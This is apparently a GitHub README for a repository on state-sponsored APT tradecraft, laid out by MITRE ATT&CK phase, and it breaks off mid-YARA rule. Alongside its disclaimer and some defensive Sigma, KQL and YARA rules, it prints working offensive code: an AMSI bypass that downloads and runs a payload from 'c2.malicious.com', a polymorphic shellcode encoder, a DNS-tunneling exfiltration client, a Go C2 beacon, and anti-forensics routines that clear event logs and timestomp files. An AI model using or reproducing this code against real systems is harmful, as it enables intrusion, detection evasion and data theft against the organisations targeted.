







# 🎯 Advanced State-Sponsored Adversarial Operations
### Enterprise-Grade APT Techniques & Tradecraft Documentation

<div align="center">

[](LICENSE)
[](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
[](https://attack.mitre.org/)
[](https://www.python.org/)
[](docs/)

</div>

---

## ⚠️ CRITICAL DISCLAIMER

```
╔══════════════════════════════════════════════════════════════════════╗
║  THIS REPOSITORY IS FOR EDUCATIONAL AND AUTHORIZED TESTING ONLY     ║
║                                                                      ║
║  Unauthorized access to computer systems is ILLEGAL under:          ║
║  • Computer Fraud and Abuse Act (CFAA) - United States             ║
║  • Computer Misuse Act 1990 - United Kingdom                        ║
║  • Communications and Multimedia Act 1998 - Malaysia                ║
║  • And equivalent laws worldwide                                    ║
║                                                                      ║
║  The author assumes NO responsibility for misuse of this content.   ║
║  Always obtain explicit written authorization before testing.       ║
╚══════════════════════════════════════════════════════════════════════╝
```

---

## 📋 Table of Contents

- [Executive Summary](#executive-summary)
- [APT Kill Chain Overview](#apt-kill-chain-overview)
- [Repository Architecture](#repository-architecture)
- [Phase-by-Phase Breakdown](#phase-by-phase-breakdown)
- [Advanced C2 Infrastructure](#advanced-c2-infrastructure)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Real-World APT Case Studies](#real-world-apt-case-studies)
- [Detection & Defense](#detection--defense)
- [Prerequisites](#prerequisites)
- [Installation & Setup](#installation--setup)
- [Contributing](#contributing)
- [Legal & Ethical Guidelines](#legal--ethical-guidelines)

---

## 🎓 Executive Summary

This repository represents a **comprehensive, enterprise-grade documentation** of Advanced Persistent Threat (APT) techniques, tactics, and procedures (TTPs) used by state-sponsored adversarial actors. Built from real-world experience with **CEH v12 certification**, extensive penetration testing, and deep analysis of threat intelligence, this resource serves as:

- **📚 Educational Material**: For security researchers, red teamers, and incident responders
- **🛡️ Defense Blueprint**: Understanding attacker methodology to build resilient defenses
- **🔬 Research Platform**: Analyzing APT group behaviors and evolving tradecraft
- **⚔️ Red Team Playbook**: Authorized offensive security operations

### Target Audience

| Role | Use Case |
|------|----------|
| **Security Researchers** | Understanding APT methodology and attribution |
| **Red Team Operators** | Advanced tradecraft for authorized engagements |
| **Blue Team Defenders** | Threat modeling and detection engineering |
| **Incident Responders** | APT behavior analysis and forensic investigation |
| **Security Leaders** | Risk assessment and strategic defense planning |

---

## 🗡️ APT Kill Chain Overview

The modern APT kill chain extends far beyond traditional cyber attacks. This documentation covers the **complete adversarial lifecycle**:



### Attack Surface Taxonomy



---

## 🏗️ Repository Architecture

This repository follows a **modular, phase-based architecture** aligned with the MITRE ATT&CK framework:

```
apt-adversarial-operations/
│
├── 📘 docs/                          # Phase-based documentation
│   ├── 01-reconnaissance/            # OSINT, scanning, enumeration
│   ├── 02-initial-access/            # Entry techniques
│   ├── 03-execution-persistence/     # Code exec & maintaining access
│   ├── 04-privilege-escalation/      # Elevation of privileges
│   ├── 05-defense-evasion/           # AV bypass, obfuscation
│   ├── 06-credential-access/         # Cred dumping, Kerberos attacks
│   ├── 07-discovery-lateral-movement/ # Network mapping, pivoting
│   ├── 08-collection-exfiltration/   # Data theft techniques
│   ├── 09-command-control/           # C2 infrastructure
│   └── 10-impact-cleanup/            # Final objectives, forensics
│
├── 🛠️ tools/                         # Custom tooling & frameworks
│   ├── reconnaissance/               # OSINT automation, scanners
│   ├── exploitation/                 # Exploit development
│   ├── persistence/                  # Implant & backdoor modules
│   ├── c2-framework/                 # Custom C2 implementation
│   └── utilities/                    # Helper scripts & automation
│
├── 📊 resources/                     # Reference materials
│   ├── mitre-mapping.md              # ATT&CK technique mappings
│   ├── apt-case-studies.md           # Real-world APT analysis
│   ├── detection-rules.md            # SIEM/EDR detection signatures
│   └── threat-intelligence.md        # IOCs, TTP analysis
│
└── 🧪 labs/                          # Practice environments
    └── practice-scenarios/           # Hands-on lab exercises
```

---

## 🔍 Phase-by-Phase Breakdown

### Phase 1: Reconnaissance & Intelligence Gathering
**MITRE Tactics**: Reconnaissance (TA0043)



**Key Techniques**:
- 🕵️ **Passive OSINT**: DNS records, WHOIS, subdomain enumeration, certificate transparency logs
- 🔍 **Active Scanning**: Port scanning with evasion, service version detection, WAF/IDS detection
- 👤 **Human Intelligence**: LinkedIn scraping, email harvesting, organizational structure mapping
- 🌐 **Infrastructure Mapping**: Cloud asset discovery (AWS, Azure, GCP), CDN detection, third-party services

**Tools Covered**: Shodan, Censys, Amass, DNSRecon, theHarvester, Maltego, SpiderFoot

📖 **[Read Full Documentation](docs/01-reconnaissance/README.md)**

---

### Phase 2: Initial Access
**MITRE Tactics**: Initial Access (TA0001)

```mermaid
graph TD
    A[Attack Vectors] --> B[Phishing]
    A --> C[Public Exploit]
    A --> D[Supply Chain]
    A --> E[Valid Accounts]
    
    B --> B1[Spear Phishing]
    B --> B2[Watering Hole]
    C --> C1[Zero-Day]
    C --> C2[N-Day    C --> C2[N-Day Exploitation]
    D --> D1[Software Supply Chain]
    D --> D2[Hardware Implants]
    E --> E1[Credential Stuffing]
    E --> E2[Password Spraying]
    
    style B fill:#ff6b6b
    style C fill:#ffd93d
    style D fill:#da77f2
    style E fill:#51cf66
```

**Attack Vectors**:
- 🎣 **Phishing Operations**: Spear-phishing campaigns, credential harvesting, payload delivery
- 💥 **Exploitation**: Remote code execution, service vulnerabilities, web application attacks
- 🔗 **Supply Chain Compromise**: Third-party software, hardware implants, update mechanisms
- 🔑 **Valid Accounts**: Stolen credentials, password attacks, session hijacking

📖 **[Read Full Documentation](docs/02-initial-access/README.md)**

---

### Phase 3: Execution & Persistence
**MITRE Tactics**: Execution (TA0002), Persistence (TA0003)

**Execution Methods**:
```python
# Example: Advanced PowerShell execution with AMSI bypass
$code = @"
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
IEX(New-Object Net.WebClient).DownloadString('http://c2.malicious.com/payload.ps1')
"@

# Obfuscated execution
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($code))
powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand $encoded
```

**Persistence Techniques**:
- 📝 **Registry Manipulation**: Run keys, scheduled tasks, WMI event subscriptions
- 🔧 **Service Creation**: Windows services, Linux daemons, launchd/systemd
- 📚 **DLL Hijacking**: Search order hijacking, phantom DLL loading, proxying
- 🎯 **Advanced**: UEFI/firmware persistence, hypervisor-level rootkits, bootkit implants

📖 **[Read Full Documentation](docs/03-execution-persistence/README.md)**

---

### Phase 4: Privilege Escalation
**MITRE Tactics**: Privilege Escalation (TA0004)



**Escalation Vectors**:
- 🔓 **Windows**: UAC bypass, token manipulation, service exploitation, kernel exploits
- 🐧 **Linux**: SUID binaries, kernel exploits, container escapes, sudo misconfigurations
- 🌐 **Network**: Kerberos delegation attacks, NTLM relay, trust relationships

📖 **[Read Full Documentation](docs/04-privilege-escalation/README.md)**

---

### Phase 5: Defense Evasion
**MITRE Tactics**: Defense Evasion (TA0005)

**Anti-Detection Techniques**:

```python
# Example: Polymorphic shellcode encoder
import random
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes

def polymorphic_encode(shellcode: bytes) -> tuple:
    """
    Enterprise-grade polymorphic encoder with AES encryption
    Returns: (encrypted_shellcode, key, nonce, stub)
    """
    key = get_random_bytes(32)  # AES-256
    cipher = AES.new(key, AES.MODE_GCM)
    ciphertext, tag = cipher.encrypt_and_digest(shellcode)
    
    # Generate random decryption stub
    stub_variants = [
        generate_stub_variant_1(key, cipher.nonce, tag),
        generate_stub_variant_2(key, cipher.nonce, tag),
        generate_stub_variant_3(key, cipher.nonce, tag),
    ]
    
    return ciphertext, key, cipher.nonce, random.choice(stub_variants)

def obfuscate_strings(payload: str) -> str:
    """XOR string obfuscation with random keys"""
    key = random.randint(1, 255)
    obfuscated = ''.join(chr(ord(c) ^ key) for c in payload)
    return f"[char[]]({','.join(str(ord(c)) for c in obfuscated)}) | %{{[char]($_ -bxor {key})}}"
```

**Evasion Categories**:
- 🛡️ **Anti-AV**: Polymorphism, metamorphism, in-memory execution, process injection
- 🔍 **Anti-Forensics**: Log deletion, timestomping, fileless malware, memory-only execution
- 👻 **Anti-Sandbox**: Environment detection, time-based evasion, user interaction checks
- 🌐 **Network Evasion**: Domain fronting, protocol tunneling, encrypted C2 channels

📖 **[Read Full Documentation](docs/05-defense-evasion/README.md)**

---

### Phase 6: Credential Access
**MITRE Tactics**: Credential Access (TA0006)


**Advanced Techniques**:
- 💀 **Kerberos Attacks**: Kerberoasting, AS-REP roasting, Golden/Silver tickets, Skeleton keys
- 🔐 **NTLM Exploitation**: Pass-the-Hash, Pass-the-Ticket, NTLM relay attacks
- 📊 **Credential Dumping**: Mimikatz, ProcDump + parsing, direct LSASS access, DCSync
- 🌐 **Network Capture**: Responder, LLMNR/NBT-NS poisoning, SMB relay

📖 **[Read Full Documentation](docs/06-credential-access/README.md)**

---

### Phase 7: Discovery & Lateral Movement
**MITRE Tactics**: Discovery (TA0007), Lateral Movement (TA0008)

**Discovery Methods**:
```powershell
# Enterprise-grade Active Directory enumeration
# Using BloodHound for attack path analysis

# 1. Domain reconnaissance
Import-Module ActiveDirectory
Get-ADDomain | Select-Object Name, DomainMode, Forest
Get-ADForest | Select-Object ForestMode, GlobalCatalogs
Get-ADTrust -Filter *

# 2. User and group enumeration
Get-ADUser -Filter * -Properties * | 
    Where-Object {$_.adminCount -eq 1} |
    Select-Object Name, SamAccountName, DistinguishedName

# 3. Computer enumeration
Get-ADComputer -Filter * -Properties OperatingSystem, IPv4Address

# 4. BloodHound data collection
.\SharpHound.exe -c All --zipfilename corp_bloodhound.zip
```

**Lateral Movement Techniques**:
- 🚀 **Remote Execution**: PsExec, WMI, DCOM, PowerShell Remoting, SSH
- 🔀 **Pivoting**: Port forwarding, SOCKS proxies, SSH tunneling, Metasploit routes
- 🌐 **Living Off the Land**: Native Windows tools, built-in Linux utilities, admin scripts

📖 **[Read Full Documentation](docs/07-discovery-lateral-movement/README.md)**

---

### Phase 8: Collection & Exfiltration
**MITRE Tactics**: Collection (TA0009), Exfiltration (TA0010)



**Data Exfiltration**:
```python
# DNS Tunneling Example - Enterprise-grade implementation
import dns.resolver
import base64

class DNSTunnelClient:
    """
    Advanced DNS tunneling for data exfiltration
    Supports chunking, encryption, and error correction
    """
    
    def __init__(self, domain: str, nameserver: str, chunk_size: int = 32):
        self.domain = domain
        self.nameserver = nameserver
        self.chunk_size = chunk_size
        self.resolver = dns.resolver.Resolver()
        self.resolver.nameservers = [nameserver]
    
    def exfiltrate_data(self, data: bytes, encryption_key: bytes = None):
        """Exfiltrate data via DNS TXT queries with optional encryption"""
        if encryption_key:
            from Crypto.Cipher import AES
            cipher = AES.new(encryption_key, AES.MODE_GCM)
            data, tag = cipher.encrypt_and_digest(data)
        
        # Base32 encoding for DNS compatibility
        encoded = base64.b32encode(data).decode()
        
        # Chunk and send
        for i in range(0, len(encoded), self.chunk_size):
            chunk = encoded[i:i+self.chunk_size]
            subdomain = f"{chunk}.{i//self.chunk_size}.{self.domain}"
            
            try:
                answer = self.resolver.resolve(subdomain, 'TXT')
                # Process acknowledgment
            except Exception as e:
                # Implement retry logic with exponential backoff
                pass
```

📖 **[Read Full Documentation](docs/08-collection-exfiltration/README.md)**

---

### Phase 9: Command & Control (C2)
**MITRE Tactics**: Command and Control (TA0011)

This is the **most critical phase** of APT operations. A robust C2 infrastructure ensures:
- **Resilience**: Redundant communication channels
- **Stealth**: Traffic blending, encryption, protocol mimicry
- **Flexibility**: Dynamic tasking, module loading, payload delivery
- **Persistence**: Long-term access to compromised environments



**C2 Frameworks Covered**:
- **Commercial**: Cobalt Strike, Brute Ratel C4
- **Open Source**: Metasploit Framework, Empire/Starkiller, Covenant, Mythic, Sliver
- **Custom**: Building your own C2 from scratch (Python, Go, Rust, C#)

**Advanced C2 Techniques**:
```go
// Example: Custom C2 beacon with sleep obfuscation
package main

import (
    "crypto/tls"
    "encoding/json"
    "math/rand"
    "net/http"
    "time"
)

type Beacon struct {
    BeaconID      string
    SleepInterval int
    Jitter        float64
    C2URL         string
    HTTPClient    *http.Client
}

func NewBeacon(c2url string, sleep int, jitter float64) *Beacon {
    // Custom TLS configuration to mimic legitimate traffic
    tlsConfig := &tls.Config{
        MinVersion:               tls.VersionTLS12,
        CurvePreferences:         []tls.CurveID{tls.CurveP521, tls.CurveP384},
        PreferServerCipherSuites: true,
        CipherSuites: []uint16{
            tls.TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384,
            tls.TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256,
        },
    }
    
    return &Beacon{
        BeaconID:      generateBeaconID(),
        SleepInterval: sleep,
        Jitter:        jitter,
        C2URL:         c2url,
        HTTPClient: &http.Client{
            Transport: &http.Transport{
                TLSClientConfig: tlsConfig,
            },
            Timeout: 30 * time.Second,
        },
    }
}

func (b *Beacon) calculateSleep() time.Duration {
    // Apply jitter to prevent pattern detection
    jitterValue := float64(b.SleepInterval) * b.Jitter
    actualSleep := b.SleepInterval + rand.Intn(int(jitterValue))
    return time.Duration(actualSleep) * time.Second
}

func (b *Beacon) checkin() (*TaskResponse, error) {
    // Implement beacon check-in logic with proper headers
    req, err := http.NewRequest("GET", b.C2URL+"/api/tasks", nil)
    if err != nil {
        return nil, err
    }
    
    // Add realistic headers to blend with legitimate traffic
    req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36")
    req.Header.Set("Accept", "application/json, text/plain, */*")
    req.Header.Set("X-Beacon-ID", b.BeaconID)
    
    resp, err := b.HTTPClient.Do(req)
    if err != nil {
        return nil, err
    }
    defer resp.Body.Close()
    
    var taskResp TaskResponse
    json.NewDecoder(resp.Body).Decode(&taskResp)
    return &taskResp, nil
}

func (b *Beacon) run() {
    for {
        task, err := b.checkin()
        if err == nil && task != nil {
            b.executeTask(task)
        }
        
        // Sleep with jitter
        time.Sleep(b.calculateSleep())
    }
}
```

📖 **[Read Full Documentation](docs/09-command-control/README.md)**

---

### Phase 10: Impact & Cleanup
**MITRE Tactics**: Impact (TA0040)

**Impact Operations**:
- 💥 **Data Destruction**: Disk wiping, file encryption, database deletion
- 🔒 **Service Disruption**: DDoS, resource exhaustion, system manipulation
- 🎯 **Mission Objectives**: Ransomware deployment, data manipulation, system control

**Anti-Forensics & Cleanup**:
```python
# Advanced anti-forensics toolkit
import os
import shutil
import subprocess
from datetime import datetime, timedelta

class AntiForensics:
    """Enterprise-grade anti-forensics and cleanup operations"""
    
    @staticmethod
    def timestomp(filepath: str, target_time: datetime = None):
        """
        Modify file timestamps to avoid detection
        Sets access, modify, and change times to target
        """
        if not target_time:
            # Set to a random time in the past year
            target_time = datetime.now() - timedelta(days=random.randint(30, 365))
        
        timestamp = target_time.timestamp()
        os.utime(filepath, (timestamp, timestamp))
    
    @staticmethod
    def secure_delete(filepath: str, passes: int = 7):
        """
        DoD 5220.22-M compliant secure file deletion
        Multiple overwrite passes with random data
        """
        filesize = os.path.getsize(filepath)
        
        with open(filepath, "ba+") as f:
            for _ in range(passes):
                f.seek(0)
                f.write(os.urandom(filesize))
        
        os.remove(filepath)
    
    @staticmethod
    def clear_event_logs():
        """Clear Windows event logs (requires SYSTEM privileges)"""
        logs = ['Application', 'Security', 'System', 'Setup']
        
        for log in logs:
            subprocess.run(
                ['wevtutil', 'cl', log],
                capture_output=True,
                check=False
            )
    
    @staticmethod
    def remove_artifacts():
        """Remove common forensic artifacts"""
        artifacts = [
            r'C:\Windows\Prefetch\*.pf',
            r'C:\Windows\Temp\*',
            r'C:\Users\*\AppData\Local\Temp\*',
            # Add more artifact paths
        ]
        
        for pattern in artifacts:
            for file in glob.glob(pattern):
                try:
                    AntiForensics.secure_delete(file)
                except:
                    pass
```

📖 **[Read Full Documentation](docs/10-impact-cleanup/README.md)**

---

## 🏛️ Advanced C2 Infrastructure

### Multi-Tier C2 Architecture



### Infrastructure Components

| Component | Purpose | Technologies |
|-----------|---------|-------------|
| **Team Servers** | Primary C2 backend, task management | Cobalt Strike, Covenant, Mythic, Custom |
| **Redirectors** | Traffic obfuscation, operator protection | Apache mod_rewrite, Nginx, HAProxy, Traefik |
| **Domain Fronting** | Hide C2 traffic behind legitimate domains | CDN services, Cloud providers |
| **DNS C2** | Alternative communication channel | Custom DNS servers, recursive queries |
| **Cloud Functions** | Serverless C2 components | AWS Lambda, Azure Functions, GCP Functions |

📖 **[Read Full C2 Infrastructure Guide](docs/09-command-control/c2-infrastructure.md)**

---

## 🎯 MITRE ATT&CK Mapping

This repository comprehensively covers **14 MITRE ATT&CK tactics** and **180+ techniques**:

| Tactic | Techniques Covered | Documentation |
|--------|-------------------|---------------|
| **Reconnaissance** | 10 techniques | [TA0043](docs/01-reconnaissance/) |
| **Resource Development** | 7 techniques | [TA0042](resources/mitre-mapping.md) |
| **Initial Access** | 9 techniques | [TA0001](docs/02-initial-access/) |
| **Execution** | 14 techniques | [TA0002](docs/03-execution-persistence/) |
| **Persistence** | 19 techniques | [TA0003](docs/03-execution-persistence/) |
| **Privilege Escalation** | 13 techniques | [TA0004](docs/04-privilege-escalation/) |
| **Defense Evasion** | 42 techniques | [TA0005](docs/05-defense-evasion/) |
| **Credential Access** | 17 techniques | [TA0006](docs/06-credential-access/) |
| **Discovery** | 30 techniques | [TA0007](docs/07-discovery-lateral-movement/) |
| **Lateral Movement** | 9 techniques | [TA0008](docs/07-discovery-lateral-movement/) |
| **Collection** | 17 techniques | [TA0009](docs/08-collection-exfiltration/) |
| **Command and Control** | 16 techniques | [TA0011](docs/09-command-control/) |
| **Exfiltration** | 9 techniques | [TA0010](docs/08-collection-exfiltration/) |
| **Impact** | 13 techniques | [TA0040](docs/10-impact-cleanup/) |

### ATT&CK Heat Map

```python
# Generate your own ATT&CK Navigator heat map
# Based on your red team operations or threat intelligence

from attackcti import attack_client

client = attack_client()

# Get all techniques from this repository
techniques = [
    "T1595.001",  # Active Scanning: Scanning IP Blocks
    "T1598.003",  # Phishing for Information: Spearphishing Link
    "T1566.001",  # Phishing: Spearphishing Attachment
    # ... add all 180+ techniques
]

# Generate heat map JSON for ATT&CK Navigator
navigator_layer = generate_navigator_layer(techniques, scores)
```

📊 **[View Complete MITRE Mapping](resources/mitre-mapping.md)**

---

## 🔬 Real-World APT Case Studies

Learn from actual state-sponsored operations:

### APT28 (Fancy Bear) - Russia
- **Target**: Government, military, media
- **Notable Operations**: DNC hack (2016), Olympic Destroyer malware
- **TTPs**: Spear-phishing, custom malware (X-Agent, Sofacy), credential harvesting

### APT29 (Cozy Bear) - Russia
- **Target**: Government, think tanks, healthcare
- **Notable Operations**: SolarWinds supply chain attack
- **TTPs**: Supply chain compromise, legitimate tool abuse (Cobalt Strike), cloud exploitation

### Lazarus Group - North Korea
- **Target**: Financial institutions, cryptocurrency exchanges
- **Notable Operations**: Sony Pictures hack, WannaCry ransomware, SWIFT heists
- **TTPs**: Destructive malware, custom frameworks, extensive reconnaissance

### APT41 - China
- **Target**: Dual mission - espionage and financial gain
- **Notable Operations**: Healthcare data theft, gaming industry attacks
- **TTPs**: Supply chain attacks, fast exploitation, global targeting

📖 **[Read Full Case Studies](resources/apt-case-studies.md)**

---

## 🛡️ Detection & Defense

### Blue Team Perspective

Understanding APT TTPs is crucial for defense. Each phase includes:

**Detection Signatures**:
```yaml
# Sigma rule example for suspicious PowerShell execution
title: Suspicious PowerShell Execution with AMSI Bypass
id: f4bbd493-b796-416e-bbf2-121235348529
status: experimental
description: Detects PowerShell execution with AMSI bypass patterns
references:
    - https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
logsource:
    product: windows
    service: powershell
detection:
    selection:
        EventID: 4104
        ScriptBlockText|contains:
            - 'amsiInitFailed'
            - 'Reflection.Assembly'
            - 'Management.Automation.AmsiUtils'
    condition: selection
falsepositives:
    - Legitimate security tools testing
level: high
```

**Hunting Queries**:
```kql
// KQL query for Azure Sentinel - Detecting lateral movement
// Hunt for PsExec-style lateral movement
SecurityEvent
| where EventID == 4688  // Process creation
| where Process has "psexec" or Process has "paexec"
| where CommandLine contains "\\\\"
| project TimeGenerated, Computer, Account, Process, CommandLine, ParentProcessName
| join kind=inner (
    SecurityEvent
    | where EventID == 5140  // Network share access
    | where ShareName == "\\\\*\\ADMIN$" or ShareName == "\\\\*\\C$"
) on Computer, TimeGenerated
| extend ThreatConfidence = "High"
```

**EDR Detection Rules**:
```python
# Custom Yara rule for detecting Cobalt Strike beacons
rule CobaltStrike_Beacon_Detection {
    meta:
        description = "Detects Cobalt Strike beacon artifacts"
        author = "Wan Mohamad Hanis"
        date = "2025-01-25"
        severity = "critical"
    
    strings:
        $magic = { 4D 5A 90 00 03 00 00 00 }
        $str1 = "%s as %s\\%s: %d" ascii
        $str2 = "beacon.dll" ascii
        $str3 = "ReflectiveLoader" ascii
        $hex1 = { 48 89 5C 24 08 57 48 83 EC 20 48 8B D9 48 8B 0D }
